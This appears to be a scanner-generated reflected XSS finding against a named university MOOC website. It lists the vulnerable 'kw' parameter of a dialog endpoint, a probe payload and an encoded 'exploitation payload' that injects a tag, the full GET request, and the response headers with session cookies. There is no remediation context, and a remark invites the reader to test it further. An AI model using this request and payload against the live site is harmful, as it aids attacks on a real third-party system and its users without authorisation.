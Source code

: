 ## https://mooc.s.ecust.edu.cn/ananas/dialog/ballchart?begindate=qdmu2&callback=c5659&csrf_token=b4678&emailto=gwoh7&enddate=y9vx4&id=pejg0&immagine=hc4s3&index=oi6a1&item=xu4r3&kw=vs3hy1%2520%253Cxs1%252F%26%23x3c%3Bxs2%26%23x2f%3B&lang=bead6&list_type=ymoj0&month=xt8t0&page=ocxz7&tid=ka1w5&token=wu8j4&type=eafi7&uid=sc1i6&unsubscribe_token=oyb52&url=fo6d9&year=prux3
| Key | Value |
| --- | ----- |
| XSS类型 | html编码参数 |
| 时间 | 2024-11-07 16:59:58 |
| XSS位置 | get_parameter |
| 隐藏参数 | false |
| Key | kw |
| 描述 | 参数可以被html编码,自己测试吧.. |
| Payload | kw=vs3hy1%20%3Cxs1%2F&#x3c;xs2&#x2f; |
| 利用payload | kw=%26%23%78%33%63%3b%26%23%78%37%38%3b%26%23%78%37%33%3b%26%23%78%36%33%3b%26%23%78%36%31%3b%26%23%78%36%65%3b%26%23%78%33%65%3b |

### 请求包
```
GET /ananas/dialog/ballchart?begindate=qdmu2&callback=c5659&csrf_token=b4678&emailto=gwoh7&enddate=y9vx4&id=pejg0&immagine=hc4s3&index=oi6a1&item=xu4r3&kw=vs3hy1%2520%253Cxs1%252F%26%23x3c%3Bxs2%26%23x2f%3B&lang=bead6&list_type=ymoj0&month=xt8t0&page=ocxz7&tid=ka1w5&token=wu8j4&type=eafi7&uid=sc1i6&unsubscribe_token=oyb52&url=fo6d9&year=prux3 HTTP/1.1
Host: mooc.s.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
Set-Cookie: JSESSIONID=2A5F6B5271C3755E7DCC614D5877A63E; Path=/ananas; Secure; HttpOnly moocroute=4bf5c2ce5827da5c765a3b3f7ac293df; Path=/
Strict-Transport-Security: max-age=31536000;includeSubDomains
Date: Thu, 07 Nov 2024 16:59:57 GMT
Vary: Accept-Encoding
Connection: keep-alive
Server: CXS
Content-Type: text/html;charset=UTF-8

```
